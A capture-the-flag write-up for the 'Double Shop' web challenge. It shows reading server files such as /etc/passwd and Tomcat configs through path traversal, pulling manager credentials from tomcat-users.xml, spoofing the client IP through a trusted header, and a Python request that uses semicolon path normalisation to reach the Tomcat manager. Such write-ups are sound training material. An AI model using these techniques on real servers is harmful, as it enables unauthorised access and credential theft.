



## Double Shop  



We are given a simple shopping website where we can purchase from a small list of items. There is also a functionality for displaying the final receipt of the purchases.  



In the HTML source, we can find a reference to `assets/vendor.js`, contains the logic for displaying receipts.  

`_base` is a hex string that decodes to `/api/receipt.jsp?id=`, and the website is making requests to this endpoint to fetch the receipt files.  

```js
...

const _base = "\x2f\x61\x70\x69\x2f\x72\x65\x63\x65\x69\x70\x74\x2e\x6a\x73\x70\x3f\x69\x64\x3d";
const btnReceipt = $('#viewReceipt');

if(btnReceipt) {
    btnReceipt.addEventListener('click', async () => {
        _toast('Generating receipt...');
        try {
            // Prepara i dati per il backend
            const formData = new URLSearchParams();
            formData.append('sid', _sid);
            formData.append('items', JSON.stringify(_hist));

            const res = await fetch('/api/checkout.jsp', { 
                method: 'POST', 
                body: formData 
            });
            
            if(res.ok) {
                const fileTarget = (_hist.length === 0) ? "sample.txt" : `${_sid}.log`;
                window.open(_base + fileTarget, '_blank');
            } else {
                _toast('Server Error');
            }
        } catch(e) {
            console.error(e);
            _toast('Connection Error');
        }
    });
}
```

Since the files are fetched directly without any sanitisation, there could directory traversal and LFI.  

Fetching arbitrary files like `/etc/passwd` confirms the vulnerability, and also reveals that we are inside a Tomcat server.  



Through some trial and error, we can deduce that the absolute path of the webroot is `/usr/local/tomcat/webapps/ROOT`, and we can then fetch some default configuration files.  

In `/usr/local/tomcat/conf/tomcat-users.xml`, we can find admin credentials, which hints towards there being an authentication endpoint somewhere.  

```xml
<tomcat-users xmlns="http://tomcat.apache.org/xml/tomcat-users.xsd" version="1.0">
  <role rolename="manager-gui"/>
  <role rolename="manager-script"/>
  
  <user username="adm1n" password="317014774e3e85626bd2fa9c5046142c" roles="manager-gui"/>
</tomcat-users>
```

`/usr/local/tomcat/conf/tomcat-users.xml` reveals more interesting info.  

The `RemoteIpValue` of the server is configured to trust whatever IP address is in the `X-Access-Manager` header, so we can potentially use it for IP spoofing to access restricted endpoints.   

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Server port="8005" shutdown="SHUTDOWN">
  <Listener className="org.apache.catalina.startup.VersionLoggerListener" />
  <Listener className="org.apache.catalina.core.AprLifecycleListener" SSLEngine="on" />
  <Listener className="org.apache.catalina.core.JreMemoryLeakPreventionListener" />
  <Listener className="org.apache.catalina.mbeans.GlobalResourcesLifecycleListener" />
  <Listener className="org.apache.catalina.core.ThreadLocalLeakPreventionListener" />

  <GlobalNamingResources>
    <Resource name="UserDatabase" auth="Container"
              type="org.apache.catalina.UserDatabase"
              description="User database that can be updated and saved"
              factory="org.apache.catalina.users.MemoryUserDatabaseFactory"
              pathname="conf/tomcat-users.xml" />
  </GlobalNamingResources>

  <Service name="Catalina">
    <Connector port="8080" protocol="HTTP/1.1"
               connectionTimeout="20000"
               redirectPort="8443" />

    <Engine name="Catalina" defaultHost="localhost">
      <Realm className="org.apache.catalina.realm.LockOutRealm">
        <Realm className="org.apache.catalina.realm.UserDatabaseRealm" resourceName="UserDatabase"/>
      </Realm>

      <Host name="localhost"  appBase="webapps" unpackWARs="true" autoDeploy="true">
        <Valve className="org.apache.catalina.valves.RemoteIpValve"
               internalProxies=".*"
               remoteIpHeader="X-Access-Manager"
               proxiesHeader="X-Forwarded-By"
               protocolHeader="X-Forwarded-Proto" />
      </Host>
    </Engine>
  </Service>
</Server>
```

One of the admins hinted that there was a login endpoint for the manager somewhere, and I was able to find `/usr/local/tomcat/webapps/manager/WEB-INF/web.xml`.  

This configuration file shows us endpoints in `/manager` require the `manager-gui` role, which we found the credentials for earlier on in `tomcat-users.xml`.  

There is also a proxy filter being implemented to block direct access to `/manager/html`.  

```xml
<?xml version="1.0" encoding="UTF-8"?>
  ...

  <!-- Define a Security Constraint on this Application -->
  <!-- NOTE:  None of these roles are present in the default users file -->
  <security-constraint>
    <web-resource-collection>
      <web-resource-name>HTML Manager interface (for humans)</web-resource-name>
      <url-pattern>/html/*</url-pattern>
    </web-resource-collection>
    <auth-constraint>
       <role-name>manager-gui</role-name>
    </auth-constraint>
  </security-constraint>
  
  ...

  <!-- Define the Login Configuration for this Application -->
  <login-config>
    <auth-method>BASIC</auth-method>
    <realm-name>Tomcat Manager Application</realm-name>
  </login-config>

  <!-- Security roles referenced by this web application -->
  <security-role>
    <description>
      The role that is required to access the HTML Manager pages
    </description>
    <role-name>manager-gui</role-name>
  </security-role>

  ...

</web-app>
```

To bypass the filter, we can abuse semicolon normalisation, then we can access the manager endpoint by spoofing our IP address with the `X-Access-Manager` header and submitting the credentials we found earlier.  

```python
res = requests.get(f'{url}/api/manager;a/html', headers={
    'X-Access-Manager': '127.0.0.1',
}, auth=HTTPBasicAuth('adm1n', '317014774e3e85626bd2fa9c5046142c'))
```

This will render the manager page, giving us the flag.  

Flag: `srdnlen{d0uble_m1sC0nf_aR3_n0t_fUn}`